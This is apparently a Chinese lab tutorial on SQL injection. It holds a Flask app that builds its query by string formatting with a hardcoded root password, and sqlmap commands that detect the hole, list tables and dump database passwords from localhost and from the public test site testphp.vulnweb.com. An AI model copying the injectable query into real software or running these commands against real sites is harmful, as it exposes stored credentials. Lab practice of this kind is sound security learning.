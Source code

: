 ```yaml
---
title: SQL注入获取网站数据库密码
date: 2023-08-02 16:19:41
---
```


# 测试案例

Flask Web框架

```python
from flask import Flask, request
import pymysql

app = Flask(__name__)

# 配置数据库连接信息
app.config['MYSQL_HOST'] = 'localhost'
app.config['MYSQL_USER'] = 'root'
app.config['MYSQL_PASSWORD'] = '123456'
app.config['MYSQL_DB'] = 'test'
app.config['MYSQL_CURSORCLASS'] = 'DictCursor'  # 使用DictCursor返回字典类型的结果

# 创建MySQL连接
mysql = pymysql.connect(
    host=app.config['MYSQL_HOST'],
    user=app.config['MYSQL_USER'],
    password=app.config['MYSQL_PASSWORD'],
    db=app.config['MYSQL_DB'],
    cursorclass=pymysql.cursors.DictCursor
)

# 在视图函数中执行SQL查询
@app.route('/', methods=['GET'])
def index():
    username = request.args.get('username')
    cursor = mysql.cursor()
    sql = "SELECT * FROM t_user WHERE name = %s" % username
    print(sql)
    cursor.execute(sql)
    results = cursor.fetchall()
    cursor.close()
    return str(results)

if __name__ == '__main__':
    app.run()

```

# 脚本

https://github.com/sqlmapproject/sqlmap

正常查询

![image-20230802162331386](http://cxy-csx.top/image-20230802162331386.png)

在项目目录下执行命令

```
python sqlmap.py -u http://127.0.0.1:5000/?username=1 --batch
```

![image-20230802162442372](http://cxy-csx.top/image-20230802162442372.png)

注入风险

# 获取网站数据库表

```
python sqlmap.py -u http://127.0.0.1:5000/?username=1 --tables
```

![image-20230802162628070](http://cxy-csx.top/image-20230802162628070.png)

# 获取数据库密码

```
python sqlmap.py -u http://127.0.0.1:5000/?username=1 --password
```

![image-20230802162746674](http://cxy-csx.top/image-20230802162746674.png)

# 靶向网站

http://testphp.vulnweb.com/artists.php?artist=1

![image-20230802174448614](http://cxy-csx.top/image-20230802174448614.png)

数据库

![image-20230802174415017](http://cxy-csx.top/image-20230802174415017.png)

用户表数据

![image-20230802180221573](http://cxy-csx.top/image-20230802180221573.png)
